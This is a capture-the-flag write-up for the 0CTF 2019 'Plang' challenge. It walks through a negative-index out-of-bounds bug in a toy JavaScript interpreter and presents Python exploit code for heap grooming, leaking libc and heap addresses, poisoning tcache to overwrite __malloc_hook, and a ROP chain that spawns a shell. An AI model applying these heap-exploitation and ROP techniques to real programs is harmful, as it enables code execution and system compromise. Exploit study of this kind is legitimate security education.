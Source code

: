 ## Plang

This is a challenge that I failed to solve during the contest since I've got into wrong direction. After contest I read [this](https://changochen.github.io/2019-03-23-0ctf-2019.html) and [this](https://balsn.tw/ctf_writeup/20190323-0ctf_tctf2019quals/#plang) for some hints, and solved it in my own way.

### Overview

The program is a mini JavaScript interpreter engine, with [grammar](grammar.md) given. The vulnerability is an array-out-of-bound when the index of array access is a negative `int32_t`. However, the PoC given does not produce signed extension when negative `uint32_t` is converted into 64-bit index to access the array element. Here is where I've got stuck: I tried to exploit the program with only such unsigned extension, but although this might work, the time needed is far more than `alarm` limitation. I might share my initial approach later. Therefore, the correct approach is to use negative index like this `a[-2] = 1`.

### Data Structure Layout

2 important data structures most useful for exploitation are `string` and `array`, let's see their memory layout.

This is **array**:

```
pwndbg> x/40gx 0x55555578de90
0x0000000000001040	0x0000000000004010 // prev_size and size of ptmalloc chunk
0x0000000000000004	0x4000000000000000
//each element is a `0x4` followed by a `double` floating point number
//which is the numeric value of array element
//`0x4` might be enum that specify this is a `double` type
//there is no integer array element in this interpreter
//in this example, the array is [2,2,2,2,...]
0x0000000000000004	0x4000000000000000
0x0000000000000004	0x4000000000000000
//...
```

This is **string**:

```
x/40gx 0x555555789610
0x0000000000000830	0x0000000000001030
0x0000000000000005	0x000055555577c120
//there are some pointers that should not be changed
0x0000555555788b00	0x00001000f144edc5
//0x00001000 is length of the string, 
//0xf144edc5 seems to be hash of the string
0x3131313131313131	0x3131313131313131
0x3131313131313131	0x3131313131313131
//....
```

### Exploitation

Initially I tried to allocate big chunks of string and array so that they will be allocated using `mmap` just before `libc` memory, so that the offset from them to `libc` is constant. Then change the size of string using underflow OOB, then use that string to read/write memory in `libc`. However, this does not work, because `0x4` will also be written to memory of string, and it overlaps with a pointer and will cause segmentation fault when we use that string again.

Instead, I tried to write the size of `ptmalloc` memory chunk meta data. To be specific, I tried to change the `size` field of the chunk and cause overlapping, then leak `libc` address by having a `unsorted bin` on memory region of string.

Therefore, we need a **heap layout** like this

```
1. array, its `chunk size` is going to be overwritten 
2. array, whose size should be smaller than array 1
3. string, whose size should be comparatively big to ensure the addresses will lay inside it
4. array, used to trigger OOB vuln
```

`1-4` should be adjacent without any other chunks lay between them. Such situation is a bit hard to produce. A point to note is the existence of array `2`: we need it to prevent pointers in string 3 from being overwritten. The reason is that in this interpreter, we cannot create an array with fixed large size directly, but can only produce an empty array first and add elements later (this is the case even if we use `var a = [1,2,3,4,5]`); when the array is enlarged, the size of memory will always be doubled (like the implementation of `std::vector`). If we don't have `array 2`, the `unsorted bin` will overlap precisely with `string 3` and overwrite pointers at the beginning of string when trying to write `libc` address onto memory of `string 3`, and this is not what we want.

However, as I said, such heap layout is hard to produce. When we continuously enlarge the size of array or string, `realloc` will cause initial small chunks to be freed, which produces many fragments that may lay between the objects that we allocated; also the order of heap objects in memory layout does not have to be identical as order of allocation, which causes a different layout. To avoid these problems and achieve the effect we want, we can do this:

```python
exp1 = '''var x = "11111111111111111111111111111111"
var i = 0 while (i < 7) {x = x + x i = i + 1 System.gc()}
var j = 0 var ba = [] while (j < 0x100) { ba.add(1) j = j + 1 System.gc()}
var bec = [1,2,3,4,5,6,7,8]
var bed = [1,2,3,4,5,6,7,8]
bec = 0
bed = 0
System.gc()'''
# perform last x = x + x after 2 arrays are allocated
# to prevent small fragments to lay between objects
exp2 = '''x = x + x System.gc()
j = 0 var bb = [] while (j < 0x400) { bb.add(2) j = j + 1 System.gc()}
System.gc()'''
#it seems that it is better to have System.gc() in each loop
#the sizes are obtained by trial and error
send_payload(exp1.split('\n'))

#try to remove a chunk from bins, 
#otherwise `prev_size != size` will occur for that chunk 
send_payload([
	"j = 0 var bea = [] while (j < 0x10) { bea.add(0x1000) j = j + 1 System.gc()}",
	"j = 0 var beb = \"%s\"" % ('A' * 0x70)])#consume a bin
#now heap:
#1. string x '111'
#2. ba

#payloads = []
#for i in xrange(4):
#	payloads.append("j = 0 var be%s = [1,2,3,4]" % chr(ord('a') + i))
#too many fragments :(
send_payload(["j = 0 var baa = [] while (j < 0x80) { baa.add(1) j = j + 1 System.gc()}"])
send_payload(exp2.split('\n'))
#now heap layout:
#1. ba -> try to change chunk size for this one 
#2. baa 0x55555578b650
#3. x 
#4. bb
```

Then it's time to **leak the addresses**.

Firstly we change the chunk size of `ba` to wrap `ba`, `baa` and `x`, so when this big chunk is consumed, the addresses in `unsorted bin` will be written to string `x` so we can leak it.

```python
send_payload(["bb[%d]=%s" % (-0x386, qword_to_double(0x1010+0x810+0x2030+1)), #change chunk size of `ba`
	"ba = 0","System.gc()"]) # free(ba) 0x55555578a640

send_payload(["j = 0 var bc = [] while (j < 0x100) { bc.add(2019) j = j + 1 System.gc()}"])
#This `bc` is also some neccessary consumption of freed bins
send_payload(["j = 0 var bca = [] while (j < 0x101) { bca.add(2019) j = j + 1 System.gc()}"])
#now heap address and libc address have been shoot to x 0x7b0

leak = ""
for i in xrange(0x7b0,0x7b8):
	leak += send_payload(["System.print(x[%d])" % i], True)
	send_payload(["System.gc()"])
libc_addr = u64(leak) - 0x3ebca0

leak = ""
for i in xrange(0x7c0,0x7c8):
	leak += send_payload(["System.print(x[%d])" % i], True)
	send_payload(["System.gc()"])
heap_addr = u64(leak)

print hex(libc_addr),hex(heap_addr)
```

Then we have address leak, then we need to find ways to **get shell**. Since this is `libc-2.27`, there is a `struct` `tcache_perthread_struct` at the beginning of the heap. We can rewrite the entry of such structure to poison the `tcache`. Luckily, `0x50` chunk head is at `xxx8` memory address so we can rewrite it using our own value (note we always have `0x4` at `xxx0` address). We can rewrite it to `&__malloc_hook` so we can rewrite this function pointer. The `one_gadget` does not seem to work very well since the pre-condition does not satisfy, but we can control a large piece of stack memory, so we can do ROP. 

```python
send_payload(["bb[%d]=%s" % (-0x1ae4, qword_to_double(libc_addr + e.symbols["__malloc_hook"] - 0x20))])
payload = "var s2 = [%s,2,3,1]" % qword_to_double(libc_addr + 0x162ea3)
#0x162ea3 : add rsp, 0x520 ; pop rbx ; ret
assert len(payload) < 0x2b0
payload = payload.ljust(0x2b0, '\x00')
payload += p64(libc_addr + 0x4f322) #one gadget
payload += '\x00' * 0x60 #satisfy condition
send_payload(["var s1 = [1,2,3,4]"])
sh.sendline(payload)
```

The data structure that I use does not seem to be that `array` one, but it still writes our floating point number to the memory being allocated. Another thing to note is that the reason why `__free_hook` might not work very well is that there is a `stdin lock` structure before `__free_hook`, and the `fgets` function will get stuck if we tamper it. In this case we must use the `array` structure because it won't tamper much memory before the target, but this is going to use `realloc` to enlarge memory, and the weird thing is `realloc` will not use memory chunks in `tcache`. `:(`

[Full Exploit Script](plang.py)